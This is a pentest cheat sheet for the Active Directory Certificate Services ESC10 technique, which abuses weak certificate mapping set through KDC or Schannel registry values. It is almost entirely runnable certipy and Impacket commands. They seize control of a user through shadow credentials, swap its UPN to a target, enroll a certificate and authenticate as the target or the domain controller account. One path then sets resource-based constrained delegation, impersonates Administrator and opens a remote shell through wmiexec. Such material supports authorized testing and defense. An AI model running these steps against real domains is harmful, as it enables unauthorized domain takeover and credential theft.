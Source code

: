 # ESC10—Weak Certificate Mapping via KDC/Schannel Registry Misconfiguration

## Theory

Two registry-driven misconfigurations can relax certificate-to-account binding:

- **Case 1 (Kerberos/KDC):** `StrongCertificateBindingEnforcement=0` on the KDC causes weak mapping during PKINIT. If you set a controlled user’s UPN to the target’s UPN, any **client-auth** cert you enroll as the controlled user will map to the target.
- **Case 2 (Schannel/LSASS):** `CertificateMappingMethods=0x4` enables weak UPN mapping for Schannel (LDAPS/WinRM HTTPS/etc.). Same UPN swap idea, but you must authenticate via Schannel (not PKINIT). You can then leverage LDAP operations (e.g., create a machine account, set RBCD) to escalate.

## Requirements

### Case 1—Kerberos

- `HKLM\SYSTEM\CurrentControlSet\Services\Kdc\StrongCertificateBindingEnforcement = 0` (only effective if Apr 2023 KDC hardening updates are not installed).
- At least one template with **Client Authentication** EKU (e.g., `User`).
- **GenericWrite/GenericAll** over a controlled user `<CONTROLLED_USER>` to rewrite its UPN to `<TARGET_UPN>`.

### Case 2—Schannel

- `HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\SCHANNEL\CertificateMappingMethods = 0x4`.
- At least one **Client Authentication** template (e.g., `User`).
- **GenericWrite/GenericAll** over `<CONTROLLED_USER>`. Target account `<TARGET_USER>` should **not** already have a UPN (e.g., machine accounts like `<DC_HOSTNAME>$` or the built-in Administrator) to avoid constraint violations.
 
---

## Linux

### Enumerate Registry (optional, as Admin only)

```bash
# Case 1 (KDC)
reg.py '<DOMAIN>/<ADMIN_USER>':'<ADMIN_PASS>'@<DC_IP> query -keyName 'HKLM\SYSTEM\CurrentControlSet\Services\Kdc'

# Case 2 (Schannel)
reg.py '<DOMAIN>/<ADMIN_USER>':'<ADMIN_PASS>'@<DC_IP> query -keyName 'HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\SCHANNEL'
```

# Enumerate Vulnerable Templates

```bash
# Find client-auth templates and check general AD CS exposure
certipy find -u '<USER>@<DOMAIN>' -p '<PASS>' -dc-ip <DC_IP> -vulnerable -stdout
```

### Gain/Use Control of <CONTROLLED_USER> (example: Shadow creds)

```bash
certipy shadow auto -u '<USER>@<DOMAIN>' -p '<PASS>' -account <CONTROLLED_USER>
# => yields a TGT/NT hash for <CONTROLLED_USER> (no password change)
```

---

### Case 1—Kerberos (PKINIT)

1. **Set `<CONTROLLED_USER>` UPN to `<TARGET_UPN>`**

```bash
certipy account update -u '<USER>@<DOMAIN>' -p '<PASS>' -user <CONTROLLED_USER> -upn '<TARGET_UPN>'
# Eg ADMIN_USER@<DOMAIN>
```

1. **Request client-auth cert as `<CONTROLLED_USER>`**

```bash
# Use password OR NT hash from shadow creds
certipy req -u '<CONTROLLED_USER>@<DOMAIN>' -p '<CONTROLLED_PASS>' \
  -dc-ip <DC_IP> -ca '<CA_NAME>' -template 'User' -out '<PFX_FILE>'
# or
certipy req -u '<CONTROLLED_USER>@<DOMAIN>' -hashes <CONTROLLED_HASH> \
  -dc-ip <DC_IP> -ca '<CA_NAME>' -template 'User' -out '<PFX_FILE>'
# Expect UPN in output: '<TARGET_UPN>'
```

1. **Revert `<CONTROLLED_USER>` UPN**

```bash
certipy account update -u '<USER>@<DOMAIN>' -p '<PASS>' -user <CONTROLLED_USER> -upn '<CONTROLLED_UPN>'
```

1. **Authenticate as `<TARGET_USER>` via PKINIT**

```bash
certipy auth -pfx '<PFX_FILE>.pfx' -domain <DOMAIN> -dc-ip <DC_IP>
# => saves <TARGET_USER>.ccache and may print NT hash
```

1. **Use TGT**

```bash
KRB5CCNAME=<TARGET_USER>.ccache wmiexec.py -k -no-pass <TARGET_HOST_FQDN>
```

---

### Case 2—Schannel (LDAPS)

1. **Set `<CONTROLLED_USER>` UPN to DC machine account UPN**

```bash
certipy account update -u '<USER>@<DOMAIN>' -p '<PASS>' -user <CONTROLLED_USER> -upn '<DC_HOSTNAME>$@<DOMAIN>'
```

1. **Request client-auth cert as `<CONTROLLED_USER>`**

```bash
certipy req -u '<CONTROLLED_USER>@<DOMAIN>' -hashes <CONTROLLED_HASH> \
  -dc-ip <DC_IP> -ca '<CA_NAME>' -template 'User' -out '<PFX_FILE>'
# Expect UPN: '<DC_HOSTNAME>$@<DOMAIN>'
```

1. **Revert `<CONTROLLED_USER>` UPN**

```bash
certipy account update -u '<USER>@<DOMAIN>' -p '<PASS>' -user <CONTROLLED_USER> -upn '<CONTROLLED_UPN>'
```

1. **Authenticate over Schannel (LDAPS) and abuse LDAP**

```bash
certipy auth -pfx '<PFX_FILE>' -domain <DOMAIN> -dc-ip <DC_IP> -ldap-shell
# In the LDAP shell:
# add_computer <NEW_COMPUTER_SAM> <NEW_COMPUTER_PASS>
# set_rbcd <DC_HOSTNAME>$ <NEW_COMPUTER_SAM>
```

1. **Use RBCD to impersonate**

```bash
getST.py -spn cifs/<DC_HOSTNAME>.<DOMAIN> -impersonate Administrator -dc-ip <DC_IP> \
  <DOMAIN>/'<NEW_COMPUTER_SAM>$':<NEW_COMPUTER_PASS>
# => Administrator.ccache
KRB5CCNAME=Administrator.ccache wmiexec.py -k -no-pass <DC_HOSTNAME>.<DOMAIN>
```

---

## Windows (optional Workflow notes)

- If needed, create a logon/session as `<CONTROLLED_USER>` (RDP / “Run as different user” / RunasCS) to run template enrollment tools locally.
- For enumeration of templates or AD rights, reuse PowerView/Certify approaches from previous techniques (ESC9).
